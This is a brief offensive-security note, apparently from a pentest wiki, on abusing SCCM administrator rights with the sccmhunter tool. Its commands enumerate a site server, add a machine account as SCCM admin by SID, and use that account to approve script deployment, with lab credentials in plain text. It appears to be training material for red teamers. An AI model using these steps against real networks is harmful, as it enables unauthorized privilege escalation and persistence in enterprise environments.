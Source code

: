 {% hint style="warning" %}
Applications take a long time to work. Scripts go faster.
{% endhint %}

As SCCM admin deploying scripts on a resource is possible with simple command:

```shell-session
whoami;hostname
```

Then in sccmhunter

```sh
# Enum machines within admin shell
() (C:\) >> get_device sccm01

# Promoto machine to full admin
(16777221) (C:\) >> get_device PWNED 

# Add admin
(16777221) (C:\) >> add_admin PWNED$ S-1-5-21-2570265163-3918697770-3667495639-1218

# New admin account is used as approval account.
python3 sccmhunter.py admin -u blwasp -p 'Password123!' -ip 172.50.0.40 -au 'PWNED$' -ap ComputerPass123

```

